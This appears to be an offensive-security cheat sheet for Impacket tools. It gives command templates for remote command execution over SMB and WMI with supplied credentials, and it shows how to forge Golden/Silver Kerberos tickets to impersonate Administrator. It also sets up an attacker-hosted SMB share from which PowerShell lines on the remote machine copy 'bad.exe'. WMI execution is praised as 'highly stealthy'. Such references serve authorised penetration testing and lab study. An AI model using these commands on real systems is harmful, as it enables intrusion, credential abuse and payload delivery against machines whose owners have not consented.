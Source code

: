 
## smbexec.py

A similar to `psexec.py` without using [RemComSvc](https://github.com/kavika13/RemCom). Instantiates a local smbserver to then receive the output of commands.
```bash
smbexec.py $domain/$username:$password@$IP <command>
```
This is useful in the situation where the target machine does NOT have a writeable share available.

## smbserver.py
Host a Python implementation of an SMB server. Allows to quickly set up shares and user accounts
```bash
smbserver.py $SHARENAME /path/to/your/local/share -smb2support
smbserver.py $SHARENAME /path/to/your/local/share -username $user -password 
$password
```
[IppsecRocks](https://ippsec.rocks/?#), start the smbserver your current directory
```bash
impacket-smbserver scriptserver $(pwd) -smb2support -username user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name "$share" -PSProvider FileSystem -Credential $cred -Root \\$IP\$sharename
```

```powershell
copy \\$ip\$Sharename\bad.exe
# Move into Share
cd $Share: # cd Share:
```

## ticketer.py

This script will create Golden/Silver tickets from scratch or based on a template (legally requested from the KDC).
```bash
ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser

# impersonate a user with silver ticket creation 
ticketer.py -nthash $SPNNHTLMntlm -domain-sid <your domain SID> -domain $domain -$dc-ip 10.10.10.10 -spn $SPNSvc/$domain Administrator
```

## wmiexec.py

A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.
```bash
wmiexec.py $domain/$username:$password@$IP <command>
```
